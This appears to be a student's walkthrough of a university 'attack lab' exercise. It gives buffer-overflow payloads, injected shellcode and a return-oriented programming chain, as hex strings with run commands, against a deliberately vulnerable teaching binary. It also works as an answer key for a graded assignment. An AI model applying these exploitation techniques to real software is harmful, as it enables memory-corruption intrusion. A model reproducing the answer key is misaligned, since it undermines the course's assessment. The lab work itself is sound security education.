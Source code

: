 ## LEVEL 1

This one is pretty straightforward, if you look at the code for getbuf(), you can immediately see the size of area it opened on the stack, 
    sub    $0x38,%rsp

You can see that it opened 0x38 byes (56 bytes in decimal), if we overflow this buffer and add the address of touch1 in the overflowed buffer, we should be able to get the function to return to touch 1

so, first we need to fill the 56 bytes with whatever basically, it doesn't really matter right now

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

there we go! it's 56 bytes of nothing!, after that, we begin the buffer overflow attack, so we just need to change the return function to touch 1

so we look below to see where touch1 starts, which just happens to be 00000000004014ee

We can play around with hex2raw for a bit and find out that we are working in little-endianess, we need to put the order of the bytes in reverse, so we can do by flipping that address

00000000004014ee -> ee14400000000000

So, if we add this to our overflow function, we should be able to get the getbuf() string to call our touch1 function, and since if we look at the provided c code for touch1, we can see that we don't need to call it with anything special, so we should be able to just add that to the end of our "attack" data

so, our "attack" should look like such

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ee 14 40 00 00 00 00 00

if we run ctartget with passing the attack string, we can check to see that this works

*Run* 

cat level1.txt | ./hex2raw | ./ctarget

**We got it!**

## LEVEL 2

So, first things first we can look at the provided c code to see what's happening in touch2, and you can see that we need to inject some sort of code to make it seem like we used our cookie as an argument when we called touch2.

We can start by finding out what the address of our cookie is, and we can just look above in phase 1 to see what it is,

0x30cd1ee4

so, we need to pass this function as an argument into phase 2, and the way to do that is by somehow running a move command to move our cookie into %rdi (the first agrument register)

in assembly we would do this as such -> 

movq $0x30cd1ee4, %rdi
retq

this would move the cookie into the register then return (since we can't use jmp's)

now we can convert this to hex as shown in appendix b, by compiling with gcc then dissasembling it, which gets us ->

   0:   48 c7 c7 e4 1e cd 30    mov    $0x30cd1ee4,%rdi
   7:   c3                      retq  

        gcc -c convert-to-hex.s
        objdump -d convert-to-hex.o

Next, we need to find the stack pointer of our entered value so we can make OUR code (above) run during the return statement instead of the original return statment, so it can then move the data, and call the touch2 function.
so, we now have hex values for what we need to do, we just need to find the address of the rsp (stack) register, which we can find by running the program in gdb, we feed it some string longer than our buffer and we can then print our $rsp (the string we just entered) and find that the address is ->

0x5563e918

so, now we can piece together our cookie. 

starting with the previous cookie as a starting point (cause i'm lazy) we can 

48 c7 c7 e4 1e cd 30 c3 //our move function to move our cookie into the argument
00 00 00 00 00 00 00 00 //padding to create overflow
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
18 e9 63 55 00 00 00 00 //address of register %rsp (stack)
1c 15 40 00 00 00 00 00 //return to touch2 instead of whatever it was

*Run* 

cat level2.txt | ./hex2raw | ./ctarget

**We got it!** 

## Level 3

Ok, so phase 3 includes 2 parts, one is the touch3 function and the other is the hexmatch function,

The touch3 function takes a pointer of a string (or some other address of a string)

inside touch3 we're calling a function that will check our cookie again, but this time we need to be careful to make sure that our cookie won't get overwritten by the hexmatch function.

So, first things first, we'll need to set our attack string to return to touch3, so we can grab the address of touch3 from the dissasembled file

touch3 = 0x401633

So, since our buffer is getting overwritten, we need to store our string outside our buffer, so we can do that by storing it 0x48 bytes above the start of our buffer (it'll be after the return command)
size of buffer  base pointer   return function 
0x38           +    0x8      +       0x8       = 0x48

start of buffer.        where we need to store our cookie so it doesn't get erased
0x5563e918     + 0x48 = 0x5563e960

so that's where we'll store our cookie

same as with phase 2 we'll move the cookie into the first argument, but this time our cookie is going to be a pointer to a string rather than just an address of the cookie.

write the assembly for moving to the first argument and returning

movq $0x5563e960,%rdi
retq

compile and dissass to show what the hex we need is
    0:   48 c7 c7 60 e9 63 55    mov    $0x5563e960,%rdi
   7:   c3                      retq  

so, now we have the code that will set the first argument to the pointer of the string

now since the function takes a string instead of looking for a hex value, we can convert the location of our cookie (in hex) to ascii

cookie in hex -> cookie in ascii
0x30cd1ee4 -> 33 30 63 64 31 65 65 34


so, now we should have everything we need to create our "attack"

48 c7 c7 60 e9 63 55 c3 //our move to move the pointer to the cookie into the argument and ret
00 00 00 00 00 00 00 00 //padding to create overflow
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
18 e9 63 55 00 00 00 00 //address of register %rsp (stack)
33 16 40 00 00 00 00 00 //return to touch3 instead of whatever it was
33 30 63 64 31 65 65 34 //Cookie string

*Run* 

cat level3.txt | ./hex2raw | ./ctarget

**We got it!**

## Phase 4

This is where it gets much harder since this employs randomization and the marks the stack as nonexecutable.

So, if we go back to phase two, we move the cookie into rsp and return, so we can try to find to do the same with the cookies given.

so, we first need to find the address of touch2 (easy command + f) and cookie (cookie.txt)

touch2 000000000040151c
cookie 0x30cd1ee4

so, now we need to figure out how to move these 2 pieces of information into the correct locations.

So, we need to figure out a way to get our cookie into rdi, using only the gadgets...

The first thing we are going to do is move our cookie into %rax then we can move from %rax to %rdi then we can call touch 2

so if we reference the pdf, we can see that in order to get the cookie into rax, we need to pop %rax which in hex is 58, so we can try to find any gadget that will get a 58 next to a c3

*note* thanks to a super helpful video from computerphile, I know that hex 90 means skip this instruction and continue on, so if there happens to be a 58 90 c3 or 58 90 90 90 90 90 c3, those will work just fine :)

so, searching for 58 in the gadget farm, we can see that <addval_102> has what we need, as at the end of a line it has 58 90 90 c3. So, we take the address of that line and add an offset of 2 so that it starts right at the 58
    4016f2 + 2 = 4016f4

then we can try to figure out a way to move rax into rdi which we can see from the pdf that we need a 48 89 c7 (once again the 90 applies)

searching the gadget farm, we can see that <setval_160> has exactly what we are looking for with 48 89 c7 90 \n c3 this will move %rax into %rdi, so once again calculate the offset of the part we need and find that
    4016e4 + 2 = 4016e6

finally we just need to return into touch 2 and we should be good :)

so, create an attack that does that! (little endian :D)

00 00 00 00 00 00 00 00 //Buffer
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
f4 16 40 00 00 00 00 00 //gadget 1 (pop %rax ret)
e4 1e cd 30 00 00 00 00 //cookie 
e6 16 40 00 00 00 00 00 //gadget 2 (movq %rax, %rdi ret)
1c 15 40 00 00 00 00 00 //touch2

*Run* 

cat level4.txt | ./hex2raw | ./rtarget

**We got it!**